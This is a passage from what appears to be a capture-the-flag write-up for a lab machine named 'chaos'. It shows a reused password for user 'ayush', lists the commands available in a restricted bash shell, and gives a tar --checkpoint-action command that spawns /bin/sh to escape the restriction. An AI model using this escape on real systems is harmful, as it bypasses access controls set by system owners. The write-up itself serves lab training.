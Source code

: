`ayush` uses the same password of `jiujitsu`.&#x20;

<figure><img src="../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

`ayush` has a restricted shell.&#x20;

```
ayush@chaos:/home$ echo $PATH
/home/ayush/.app
ayush@chaos:/home$ ls -la
rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
```

Using the TAB button, we can find the commands we can run:

```
!                         echo                      printf
./                        elif                      pushd
:                         else                      pwd
[                         enable                    read
[[                        esac                      readarray
]]                        eval                      readonly
{                         exec                      return
}                         exit                      select
alias                     export                    set
bg                        false                     shift
bind                      fc                        shopt
break                     fg                        source
builtin                   fi                        suspend
caller                    for                       tar
case                      function                  test
cd                        getopts                   then
command                   hash                      time
command_not_found_handle  help                      times
compgen                   history                   trap
complete                  if                        true
compopt                   in                        type
continue                  jobs                      typeset
coproc                    kill                      ulimit
declare                   let                       umask
dir                       local                     unalias
dirs                      logout                    unset
disown                    mapfile                   until
do                        ping                      wait
done                      popd                      while
```

I noticed that `ayush` can run `tar`, which allows us to escape the shell using:

```bash
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
